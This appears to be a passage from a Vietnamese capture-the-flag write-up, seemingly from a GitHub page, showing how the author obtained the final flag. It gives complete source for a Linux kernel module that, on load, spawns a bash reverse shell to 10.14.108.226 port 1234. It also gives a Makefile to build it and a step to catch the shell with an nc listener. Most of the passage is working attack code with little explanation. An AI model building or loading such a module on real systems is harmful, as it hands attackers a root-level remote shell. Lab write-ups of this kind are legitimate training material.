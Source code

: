 
tạo một tệp reverse-shell.c
cat > reverse-shell.c << 'EOF'
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/kmod.h>

static int __init revshell_init(void) {
    char *argv[] = {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.14.108.226/1234 0>&1", NULL};
    static char *envp[] = {"HOME=/", "TERM=linux", "PATH=/sbin:/bin:/usr/bin", NULL};
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    return 0;
}

static void __exit revshell_exit(void) {
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(revshell_init);
module_exit(revshell_exit);
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Reverse Shell Module");

EOF


tạo một Makefile

printf $'obj-m += reverse-shell.o\n\nall:\n\tmake -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules\n\nclean:\n\tmake -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean\n' > Makefile

chạy make
<img width="788" height="298" alt="image" src="https://github.com/user-attachments/assets/21806951-46b8-4d3e-a14c-2e91ae0323a8" />

mở 1 terminal mới chạy nc lắng nghe trên port 1234

<img width="995" height="746" alt="image" src="https://github.com/user-attachments/assets/0c9c0510-460c-4c73-95d3-f114b897724f" />

Lá cờ cuối cùng 
